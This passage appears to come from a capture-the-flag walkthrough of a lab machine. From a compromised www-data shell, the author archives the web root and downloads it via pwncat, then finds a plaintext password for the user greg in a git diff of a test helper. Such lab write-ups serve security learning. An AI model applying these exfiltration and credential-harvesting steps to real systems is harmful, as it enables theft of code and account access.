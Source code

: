 The only viable approach for to enumerate the repository involves archiving it and subsequently downloading the generated archive.

```bash
(remote) www-data@intentions:/tmp$ tar -cf intentions.tar /var/www/html/intentions
tar: Removing leading `/' from member names
(local) pwncat$ download intentions.tar
intentions.tar  100.0% • 270.5/270.5 MB • 1.6 MB/s • 0:00:00
[03:53:25] downloaded 270.51Mi━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━B in 5.0 minutes and 11 seconds                                        download.py:71
(local) pwncat$
```

Judging by the commit message, it's possible that the second-to-last commit in the git log could reveal something of interest.

```bash
> git lg

1f29dfd steve    (5 months ago) - Fix webpack for production (HEAD -> master)
f7c903a greg     (5 months ago) - Test cases did not work on steve's local database, switching to user factory per his advice
36b4287 greg     (5 months ago) - Adding test cases for the API!
d7ef022 steve    (5 months ago) - Initial v2 commit
(END)

```

The diff for the mentioned commit contains the password for the user, greg → `greg:Gr3g1sTh3B3stDev3l0per!1998!`

```diff
> git show f7c903a

commit f7c903a54cacc4b8f27e00dbf5b0eae4c16c3bb4
Author: greg <greg@intentions.htb>
Date:   Thu Jan 26 09:21:52 2023 +0100

    Test cases did not work on steve's local database, switching to user factory per his advice

diff --git a/tests/Feature/Helper.php b/tests/Feature/Helper.php
index f57e37b..0586d51 100644
--- a/tests/Feature/Helper.php
+++ b/tests/Feature/Helper.php
@@ -8,12 +8,14 @@ class Helper extends TestCase
 {
     public static function getToken($test, $admin = false) {
         if($admin) {
-            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
-            return $res->headers->get('Authorization');
+            $user = User::factory()->admin()->create();
         }
         else {
-            $res = $test->postJson('/api/v1/auth/login', ['email' => 'greg_user@intentions.htb', 'password' => 'Gr3g1sTh3B3stDev3l0per!1998!']);
-            return $res->headers->get('Authorization');
+            $user = User::factory()->create();
         }
+
+        $token = Auth::login($user);
+        $user->delete();
+        return $token;
     }
 }

```